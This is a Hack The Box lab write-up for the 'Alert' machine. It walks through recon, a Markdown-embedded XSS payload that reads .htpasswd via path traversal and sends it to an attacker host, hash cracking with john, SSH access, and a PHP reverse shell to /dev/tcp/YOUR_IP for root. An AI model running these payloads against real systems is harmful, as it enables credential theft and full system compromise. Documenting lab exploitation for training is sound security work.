







<div align="left">


</div>

---

## Alert — Hack The Box Write-Up

<div align="left">

<br>
<br>


</div>

Alert is a Medium Linux machine focused on Markdown file handling abuse, subdomain discovery, credential extraction via XSS, hash cracking, and privilege escalation through writable directories and local service exposure.

- Nmap service enumeration
- Subdomain discovery via ffuf
- Hash cracking (md5crypt)
- SSH access
- Local service exploitation & privilege escalation

---

## 🛠 Tools

```
nmap        → service discovery
ffuf        → subdomain enumeration
burpsuite   → request analysis
john        → hash cracking
hashid      → hash identification
linpeas     → privilege escalation enumeration
ssh         → remote access & port forwarding
nc          → reverse shell listener
```

---

## Reconnaissance & Enumeration

### Initial Nmap Scan

```bash
nmap -sC -sV 10.10.11.44
```

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

HTTP Title:

```
Alert - Markdown Viewer
index.php?page=alert
```

Add domain locally:

```bash
echo "10.10.11.44 alert.htp" | sudo tee -a /etc/hosts
```



The application contains a Markdown file upload feature — a strong candidate for file handling vulnerabilities.

---

## Subdomain Enumeration

Subdomain fuzzing using ffuf:

```bash
ffuf -u http://alert.htp/ \
-H "Host: FUZZ.alert.htp" \
-w /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt \
-ac
```

Result:

```
statistics.alert.htp  [Status: 200]
```



This subdomain becomes critical during exploitation.

---

## Initial Access — Markdown XSS Exploitation

Direct PHP upload attempts fail.
The application strictly handles `.md` files.

Instead of bypassing upload restrictions, abuse Markdown rendering with embedded JavaScript.

Start local HTTP listener:

```bash
python3 -m http.server 8888
```

Create malicious Markdown file (`test.md`):

```html
<script>
  fetch(
    "http://alert.htp/messages.php?file=../../../../../../../var/www/statistics.alert.htp/.htpasswd",
  )
    .then((response) => response.text())
    .then((data) => {
      fetch("http://YOUR_IP:8888/?file_content=" + encodeURIComponent(data));
    });
</script>
```

Upload the file.

Click **Share Markdown**, copy the generated link.



Navigate to **Contact Us**, paste the link, submit with dummy email.



Monitor listener — exfiltrated content received.

---

## Credential Extraction

Captured content:

```
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

URL-decoded:

```html
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>
```

Identify hash type:

```
hashid
```

Detected: **md5crypt ($apr1$)**

Crack with John:

```bash
echo '$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt
```

Password recovered.

---

## SSH Access

```bash
ssh albert@alert.htp
```

User access confirmed.



---

# Privilege Escalation

## 4.1 Running Linpeas

Albert cannot run `sudo -l`.

Upload linpeas:

```bash
nano linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

## 4.2 Analysis

Findings:

- Local service running on port 8080
- Writable directory under `/opt/website-monitor/config`
- Root-owned directories with weak permissions



---

## 4.3 Escalation

Create PHP reverse shell inside writable directory:

```php
<?php
exec("/bin/bash -c 'bash -i >/dev/tcp/YOUR_IP/1234 0>&1'");
?>
```

Save as:

```
/opt/website-monitor/config/shell.php
```

### Port Forwarding

Terminal 1:

```bash
ssh -L 8080:127.0.0.1:8080 albert@alert.htp
```

Terminal 2:

```bash
nc -lvnp 1234
```

Navigate locally:

```
http://127.0.0.1:8080/config/shell.php
```

Reverse shell received.

Root access confirmed.



---

## Attack Flow

1. Nmap service enumeration
2. Identified Markdown upload feature
3. Subdomain discovery (statistics.alert.htp)
4. Markdown-based XSS payload
5. .htpasswd extraction
6. Hash identification & cracking
7. SSH access as albert
8. Linpeas enumeration
9. Writable directory abuse
10. Port forwarding local service
11. Reverse shell → root compromise

---

## 🧠 What This Machine Teaches

- Markdown rendering can introduce stored XSS risks
- File upload restrictions do not eliminate client-side injection risks
- .htpasswd files are high-value targets
- Hash cracking remains practical with weak passwords
- Writable directories in monitored services are escalation paths

---

## 📌 Conclusion

Alert demonstrates how client-side injection combined with improper file exposure leads to full system compromise.

> _Application logic flaws often matter more than classic RCE vulnerabilities._

---

This work is part of **FuzzRaiders’ structured hands-on training and research program**, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor, and real-world security execution

Happy hacking 🚀

# Author: Z4B0 [LinkedIn](https://www.linkedin.com/in/mahamud-abdirahman-151493375/)
